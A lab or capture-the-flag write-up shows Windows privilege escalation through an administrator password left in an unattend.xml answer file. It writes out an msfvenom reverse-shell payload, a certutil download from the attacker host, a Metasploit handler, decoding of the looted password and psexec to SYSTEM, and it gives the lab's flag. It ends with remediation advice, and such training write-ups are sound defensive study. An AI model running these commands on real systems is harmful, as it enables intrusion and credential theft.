# Unattended Installation

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** 10.2.23.89 — Windows Server 2019 (Build 17763)<br>
**Attacker:** 10.10.37.3 (Kali)<br>
**Flag:** `097ab83639dce0ab3429cb0349493f60`

## 1. Executive Summary

Windows unattended installations leave an answer file (`unattend.xml` / `sysprep.xml`) that
often contains credentials. Starting from a low-privileged `student` shell, we stage a
Meterpreter payload with `certutil`, then read `C:\Windows\Panther\unattend.xml`, which
holds the local Administrator password in base64 (`QWRtaW5AMTIz` → `Admin@123`). Using those
credentials with `psexec` gives a `NT AUTHORITY\SYSTEM` session and the flag.

## 2. Initial Foothold

The provided access runs as `student`, no admin rights.

```cmd
whoami              # victim\student
```



## 3. Staging the Payload

Building a reverse-TCP payload.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.37.3 LPORT=1234 -f exe > payload.exe
```



Hosting it over a simple HTTP server.

```bash
python3 -m http.server 80
```



Downloading it onto the target with `certutil`.

```cmd
certutil -urlcache -f http://10.10.37.3/payload.exe payload.exe
dir
```



## 4. Getting a Session

Starting the handler and executing the payload.

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.37.3
set LPORT 1234
run
```







## 5. Looting unattend.xml

Searching the Panther directory for the answer file.

```cmd
cd C:\Windows\Panther
dir
```





The `AutoLogon` block holds the Administrator password in base64.

```xml
<AutoLogon>
  <Password><Value>QWRtaW5AMTIz</Value><PlainText>false</PlainText></Password>
  <Enabled>true</Enabled>
  <Username>administrator</Username>
</AutoLogon>
```



Decoding it on Kali.

```bash
echo "QWRtaW5AMTIz" | base64 -d
# Admin@123
```





## 6. SYSTEM via psexec

```bash
use exploit/windows/smb/psexec
set RHOSTS 10.2.23.89
set SMBUser Administrator
set SMBPass Admin@123
exploit
```



The session runs as `NT AUTHORITY\SYSTEM`.

```
whoami    # nt authority\system
```



## 7. Capturing the Flag

```bash
cd C:\Users\Administrator\Desktop
cat flag.txt
# 097ab83639dce0ab3429cb0349493f60
```



## 8. Remediation Recommendations

1. **Remove answer files** (`unattend.xml`, `sysprep.xml`, `Autounattend.xml`) from
   `C:\Windows\Panther\` and media after provisioning.
2. **Never store credentials in answer files** — base64 is encoding, not encryption; use
   LAPS for unique, rotated local admin passwords.
3. **Restrict outbound access and living-off-the-land binaries** (`certutil`) via WDAC/
   AppLocker and egress filtering.
4. **Apply least privilege** and monitor for `psexec`-style service creation.
